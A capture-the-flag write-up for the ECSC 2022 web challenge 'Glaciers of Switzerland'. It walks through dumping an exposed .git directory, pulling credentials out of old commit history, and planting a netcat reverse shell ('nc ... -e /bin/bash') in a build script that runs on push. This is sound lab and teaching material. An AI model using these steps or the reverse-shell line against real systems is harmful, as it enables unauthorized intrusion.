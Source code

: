 ```yaml
---
slug: "writeup"
title:  "Glaciers of Switzerland"
author: "punshLineLama"
date:   "2022-09-15"
# Optional parameters
tags: ["web", "(open)ECSC 2022"]
coverImagePath: "img/chall.png"
---
```



![Image of Challenge](img/ecsc2022_chall.png)

## TL;DR
- Brute-force directories.
- Find the .git directory
- Extract the repo with git-dumper (https://github.com/arthaud/git-dumper)
- Find the credientials in the git history of an old branch
- Write to the repo with the extracted creds and get code execution

## Complete Writeup

With gobuster, we found that there is a .git directory on the server.
Then we installed git-dumper with `pip3 install git-dumper`
Then extracted the repo with:
`~/.local/bin/git-dumper https://ea439dee-8c4d-4ead-aa86-40a208094d02.idocker.vuln.land//website-repo/.git ~/Documents/openecsc/repo_dump`

![](img/ecsc2022_pic1.png)

There was nothing too interesting in the files. 
With  gitkraken we did some further exploration and found an old version of the README.md with had credientials in them:
![](img/ecsc2022_creds.png)

As the build.sh gets executed on each push, we modified it to get us a nc reverse shell back:

```bash
#!/bin/bash

cp index.html.tpl index.html
nc 10.13.0.xxx 5555 -e /bin/bash

```
Then we started a listener with `nc -lnvp 5555`

And pushed to the repo:
`git push https://ea439dee-8c4d-4ead-aa86-40a208094d02.idocker.vuln.land/.git-server/website.git/`

We get a reverse shell back and get the flag. (Sorry I did not save the flag.)


## Lessons learned
Its often easier to use a GUI tool to explore all branches and commits of a git repo.
